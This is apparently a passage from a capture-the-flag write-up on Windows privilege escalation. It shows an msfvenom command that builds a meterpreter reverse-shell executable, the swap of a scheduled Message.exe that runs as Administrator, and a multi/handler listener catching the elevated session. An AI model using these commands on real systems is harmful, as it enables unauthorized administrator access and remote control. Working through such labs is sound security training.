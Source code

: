 ```bash
09/22/24 09:20:33,Process Ended. PID:3076,ExitCode:4,Message.exe (Administrator)
09/22/24 09:21:01,Event Started Ok, (Administrator)
09/22/24 09:21:33,Process Ended. PID:3132,ExitCode:4,Message.exe (Administrator)
09/22/24 09:22:01,Event Started Ok, (Administrator)
09/22/24 09:22:33,Process Ended. PID:2896,ExitCode:4,Message.exe (Administrator)
09/22/24 09:23:01,Event Started Ok, (Administrator)
09/22/24 09:23:33,Process Ended. PID:3888,ExitCode:4,Message.exe (Administrator)
09/22/24 09:24:01,Event Started Ok, (Administrator)
```

From this log it looks like the Message.exe executable is being run every minute from the Administrator account, if we manage to replace it with our payload we're in the clear.  
Make a reverse shell with msfvenom, be sure to name it **Message.exe**

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.156 LPORT=5555 -f exe > Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Rename the actual Message.exe executable and replace it with your payload.

```bash
meterpreter > cd ..
meterpreter > pwd
C:\Program Files (x86)\SystemScheduler
meterpreter > mv Message.exe Message.bkp
meterpreter > upload /root/Message.exe
[*] Uploading  : /root/Message.exe -> Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/Message.exe -> Message.exe
[*] Completed  : /root/Message.exe -> Message.exe
```

Now that your payload is in place it will run every minute or so, trying to connect back to a meterpreter listener. Let's set one up.  
Background your current session with CTRL+Z and execute the following commands.

```bash
meterpreter >
Background session 4? [y/N]
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.75.156:5555
[*] Sending stage (175686 bytes) to 10.10.108.43
[*] Meterpreter session 5 opened (10.10.75.156:5555 -> 10.10.108.43:49484) at 2024-09-22 17:30:36 +0100

meterpreter >
```
